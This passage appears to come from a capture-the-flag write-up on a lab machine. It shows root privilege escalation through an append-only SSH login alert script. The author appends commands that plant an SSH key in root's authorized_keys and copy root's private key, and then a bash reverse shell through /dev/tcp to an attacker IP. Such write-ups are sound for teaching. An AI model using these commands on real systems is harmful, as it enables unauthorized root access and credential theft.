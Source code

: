 >The  letters 'aAcCdDeijPsStTu' select the new attributes for the files:
       append only (a), no atime updates (A), compressed (c), no copy on write
       (C), no dump (d), synchronous directory updates (D), extent format (e),
       immutable (i), data journalling  (j),  project  hierarchy  (P),  secure
       deletion  (s),  synchronous  updates  (S),  no tail-merging (t), top of
       directory hierarchy (T), and undeletable (u).
>
>The following attributes are read-only, and may be listed by  lsattr(1)
       but  not  modified by chattr: encrypted (E), indexed directory (I), and
       inline data (N).

```
svc_acc@late:/dev/shm$ lsattr /usr/local/sbin/ssh-alert.sh
-----a--------e--- /usr/local/sbin/ssh-alert.sh
```

I checked the attributes of the file with `lsattr` and found that I was only able to append (`a`) the document, not directly write to it.  This was why I was unable to save the file after editing it, but vim did not show the file as 'read-only'.  

```shell
svc_acc@late:/dev/shm$ echo '`echo ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDEkT7JxMDRMObKtE7+GuvBQGPHPnDmF7Yly0ZClqrdC > /root/.ssh/authorized_keys`' >> /usr/local/sbin/ssh-alert.sh
```

Armed with knowledge, I decided to try to add my SSH public key to `root`'s `authorized_keys` file.  I logged out of my SSH session and then back in to try to trigger the alert script again.  After verifying that the script ran, I tried to SSH in as `root`. This did not work.

```shell
svc_acc@late:~$ echo '`cat /root/.ssh/id_rsa > /dev/shm/.test`' >> /usr/local/sbin/ssh-alert.sh

```

Next, I tried to send `root`'s potential SSH key to another file, but nothing appeared after forcing the script ro run again.

```bash
# Authentication:

#LoginGraceTime 2m
PermitRootLogin no
#StrictModes yes
#MaxAuthTries 6
#MaxSessions 10
```

I found the problem in the file `/etc/ssh/sshd_config`: root was not allowed to login through SSH.

### Getting a shell

```shell
svc_acc@late:/dev/shm$ echo '`bash -c "bash -i >& /dev/tcp/10.10.14.132/9001 0>&1"`' >> /usr/local/sbin/ssh-alert.sh
```

Next, I tried to get in directly by sending myselft a reverse shell.
